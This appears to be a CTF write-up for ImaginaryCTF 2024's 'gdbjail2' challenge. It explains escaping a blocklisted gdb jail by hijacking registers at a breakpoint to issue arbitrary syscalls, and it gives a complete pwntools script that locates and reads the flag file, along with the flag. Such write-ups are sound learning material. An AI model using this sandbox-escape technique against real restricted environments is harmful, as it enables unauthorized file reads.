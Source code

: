 ```yaml
---
layout: post
title:  "gdbjail2 - ImaginaryCTF 2024"
date:   2024-07-21 00:00:00 -0400
---
```


https://ctftime.org/event/2396

# gdbjail2 (misc)

this time with a blocklist

## Solution

The main difference in this one is the blacklist:
```python
blacklist = ["p", "-", "&", "(", ")", "[", "]", "{", "}", "0x"]
```
So we can't just set $rip.

We are debugging cat without any arguments, so it just hangs there forever waiting for input.
It takes input using the read syscall.
We can just add a breakpoint before read, change the registers and continue.
Allowing us to call any syscall that we want.

The way to find where the syscall is might be a little bit harder, I just
installed pwndbg on the Docker image, and used `stepuntilasm syscall`.
But you can also step to it or use a custom gdb script.

You can probably just call execve and be done with it.
I unfortunately chose a harder path.

1. open flag dir
2. call opendents
3. read flag filename
4. open flag
5. read flag
6. print flag from mem

Its pretty straight forward, there are two problems though.

First, The flag filename has the letter 'p' in it which is on the blacklist.
We can bypass that by using integers instead of chars, see the `alloc_str` function.

And second, finding writeable memory
We can just do `set $rax = "AAAA"`.
This gives us a heap string of any size we want.

```python
#!/usr/bin/env python3

from pwn import *

def sendfile(fd1, fd2, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 40")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd1}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = {fd2}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = 0".encode())
    p.sendlineafter(b"(gdb) ", f"set $r10 = 64".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def dump(offset):
    p.sendlineafter(b"(gdb) ", b"set $rax = 1")
    p.sendlineafter(b"(gdb) ", b"set $rdi = 1")
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{'B'}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $r14 = 65535 * {offset}".encode())
    p.sendlineafter(b"(gdb) ", b"set $si = $si + $r14")
    p.sendlineafter(b"(gdb) ", f"set $rdx = 256".encode())
    p.sendlineafter(b"(gdb) ", b"continue")
    data = p.recv()
    print(f"DEBUGPRINT[3]: clean.py:16: p.recv()={data}")
    return data 

def write(fd, data, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 1")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{data}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = {n}".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def _open(filename, mode):
    p.sendlineafter(b"(gdb) ", b"set $rax = 2")
    alloc_str(filename, "$rdi")
    # p.sendlineafter(b"(gdb) ", f"set $rdi = \"{filename}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = {mode}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = 0".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def getdents(fd, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 78")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{'A' * 256}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = {n}".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def read(fd, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 0")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{'A'*n}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = {n}".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def alloc_str(string, reg):
    p.sendlineafter(b"(gdb) ", f"set {reg} = \"{'A'*len(string)}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $start = {reg}".encode())

    for chunk in string:
        chunk = ord(chunk)
        p.sendlineafter(b"(gdb) ", f"set *{reg} = {chunk}".encode())
        p.sendlineafter(b"(gdb) ", f"set {reg} = {reg} + 1".encode())

    p.sendlineafter(b"(gdb) ", f"set *{reg} = 0".encode())
    p.sendlineafter(b"(gdb) ", f"set {reg} = $start".encode())

with remote("gdbjail2.chal.imaginaryctf.org", 1337) as p:
    p.recvuntil(b":25\n")

    p.sendlineafter(b"(gdb) ", b"break *write+21")
    p.sendlineafter(b"(gdb) ", b"break *write+23")
    p.sendlineafter(b"(gdb) ", b"continue")
    p.sendline(b"")

    _open(".", 0)
    p.sendlineafter(b"(gdb) ", b"continue")

    getdents(3, 256)
    p.sendlineafter(b"(gdb) ", b"continue")
    
    data = dump(300)
    idx = data.find(b'.txt')
    flag = data[idx-20:idx+4]
    p.sendlineafter(b"(gdb) ", b"continue")

    _open(flag.decode(), 0)
    p.sendlineafter(b"(gdb) ", b"continue")
    
    read(4, 64)
    p.sendlineafter(b"(gdb) ", b"continue")
    
    dump(200)
    p.sendlineafter(b"(gdb) ", b"continue")
```

## Flag
`ictf{i_l0ve_syscalls_eebc5336}`

shafouz 2024/07/21
